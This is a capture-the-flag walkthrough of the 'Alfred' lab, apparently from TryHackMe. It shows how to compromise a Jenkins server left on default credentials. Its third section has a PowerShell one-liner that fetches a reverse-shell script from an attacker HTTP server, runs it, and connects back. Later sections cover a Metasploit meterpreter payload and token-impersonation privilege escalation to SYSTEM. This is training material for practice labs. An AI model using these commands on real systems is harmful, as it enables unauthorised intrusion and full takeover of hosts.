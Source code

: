 # Alfred

## 1. How many ports are open? (TCP only)
Rustscan showed 3 tcp ports that are opened

![screenshot](images/scan.png)

## 2. What is the username and password for the login panel? (in the format username:password)

Using default credentials admin:admin worked
Port 80 server doesn't have anything but 8080
has jenkins

![screenshot](images/login.png)


## 3. What services allow for execution of command
Navigate to job -> project -> configure
We see that there is a textbox that allows us to
execute any command this allows us to gain reverse shell. Download the powershell script given in the thm website and input 
`powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.32.108:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.11.158 -Port 4444`. Before doing that you need to start a http server in the directory containing the reverse tcp ps1 file. After that we rebuild the project and now we have a reverse shell

![screenshot](images/exec.png)

![screenshot](images/payload.png)

![screenshot](images/revs.png)

## 4. Gaining shell
Run msfconsole and `use exploit/multi/script/web_delivery`. Then run `set exploit 2` to target powershell Then run `set payload windows/meterpreter/reverse_tcp` to change target platform to windows. Fill in your ip and the port you want to listen to then paste the generated payload into the configure textbox that allows us to run command. This should spawn a meterpreter



![screenshot](images/meter.png)

![screenshot](images/meter2.png)

![screenshot](images/postmeter.png)

## 5. priv escalation
Load incognito in our meterpreter shell by running `load incognito`
Next we run `load_tokens -g` to see what token is currently available. We are particularly interested in BUILTIN\Administrators as this allows us to escalate our privilege. Now we run `impersonate_token "BUILTIN\Administrators"` and we see that the uid to impersonate as administrators is `NT AUTHORITY\SYSTEM`

![screenshot](images/migrate.png)

Now we run ps to list all the process and we need to migrate to a process with `NT AUTHORITY\SYSTEM`. svchost.exe provides us with that. Run `migrate <ID of the process>` to migrate to the process. Now we should have admin privilege. Navigate to `C:\Windows\System32\config` to get root.txt 

![screenshot](images/ps.png)

![screenshot](images/root.png)

